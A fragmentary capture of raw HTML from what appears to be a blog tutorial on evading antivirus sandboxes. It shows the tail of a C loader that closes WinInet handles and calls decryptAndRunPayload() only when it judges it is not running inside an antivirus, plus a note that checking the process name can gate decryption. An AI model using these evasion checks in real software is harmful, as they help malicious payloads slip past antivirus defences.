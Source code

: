 AV</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-18">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-19"><span class="crayon-e">InternetCloseHandle</span><span class="crayon-sy">(</span><span class="crayon-v">httpopen</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-20">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-21"><span class="crayon-e">InternetCloseHandle</span><span class="crayon-sy">(</span><span class="crayon-v">openurl</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-22">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-23"><span class="crayon-e">decryptAndRunPayload</span><span class="crayon-sy">(</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-24">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-25"><span class="crayon-sy">}</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-26">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-27"><span class="crayon-st">else</span><span class="crayon-h"> </span><span class="crayon-sy">{</span><span class="crayon-h"> </span><span class="crayon-c">// Access successful, we are in AV and redirected to a custom webpage</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-28">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-29"><span class="crayon-e">InternetCloseHandle</span><span class="crayon-sy">(</span><span class="crayon-v">httpopen</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-30">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-31"><span class="crayon-e">InternetCloseHandle</span><span class="crayon-sy">(</span><span class="crayon-v">openurl</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-32">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-33"><span class="crayon-sy">}</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-34">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-35"><span class="crayon-st">return</span><span class="crayon-h"> </span><span class="crayon-cn">0</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae36a567733701-36">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae36a567733701-37"><span class="crayon-sy">}</span></div></div></td>
    </tr>
    </table>
    </div>
    </div>
    <!-- [Format Time: 0.0021 seconds] -->
    <p>
    <strong>What did you call me?</strong></p>
    <p>Apparently, AVs change the process name. We use the process name to decide if we want to decrypt the payload.</p><!-- Crayon Syntax Highlighter v_2.7.2_beta -->
    
    <div id="crayon-59ca5e7cae370518526945" class="crayon-syntax crayon-theme-classic crayon-font-monaco crayon-os-pc print-yes notranslate" data-settings=" minimize scroll-mouseover" style=" margin-top: 12px; margin-bottom: 12px; font-size: 12px !important; line-height: 15px !important;">
    
    <div class="crayon-toolbar" data-settings=" mouseover overlay hide delay" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><span class="crayon-title"></span>
    <div class="crayon-tools" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><div class="crayon-button crayon-nums-button" title="Toggle Line Numbers"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-plain-button" title="Toggle Plain Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-wrap-button" title="Toggle Line Wrap"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-expand-button" title="Expand Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-copy-button" title="Copy"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-popup-button" title="Open Code In New Window"><div class="crayon-button-icon"></div></div></div></div>
    <div class="crayon-info" style="min-height: 16.8px !important; line-height: 16.8px !important;"></div>
    <div class="crayon-plain-wrap"><textarea wrap="soft" class="crayon-plain print-no" data-settings="dblclick" readonly style="-moz-tab-size:4; -o-tab-size:4; -webkit-tab-size:4; tab-size:4; font-size: 12px !important; line-height: 15px !important;">
    int main(int argc, char * argv[]) {
    